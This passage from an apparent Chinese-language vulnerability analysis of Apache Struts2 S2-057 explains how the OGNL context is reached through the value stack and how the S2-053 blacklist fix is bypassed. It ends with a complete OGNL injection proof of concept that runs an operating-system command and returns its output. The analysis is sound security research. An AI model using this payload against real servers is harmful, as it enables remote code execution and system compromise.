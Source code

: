 从`AttributeMap#get()`方法可以看到，其实它会去上下文对象`context`内部存放的`request`、`session`、`application`对象去查值。其中，通过`request.get("struts.valueStack")`便可获取值栈`OgnlValueStack`，而`OgnlValueStack`对象中又存在指向上下文对象的属性。

<img src="pic/struts2_s2-057_8.png">

因此，便可通过`#request['struts.valueStack'].context`或`attr['struts.valueStack'].context`来获取上下文对象。

接着，再配合前面S2-053的修复绕过，即利用`setter`方法将指向黑名单集合的属性值`excludedClass`和`excludedPackageNames`指向一个空的集合。

综上可得，命令执行可回显的PoC如下：

```
${
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).
(#ct=#request['struts.valueStack'].context).
(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).
(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).
(#ou.setExcludedPackageNames('')).(#ou.setExcludedClasses('')).
(#ct.setMemberAccess(#dm)).
(#a=@java.lang.Runtime@getRuntime().exec('id')).
(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))
}
```
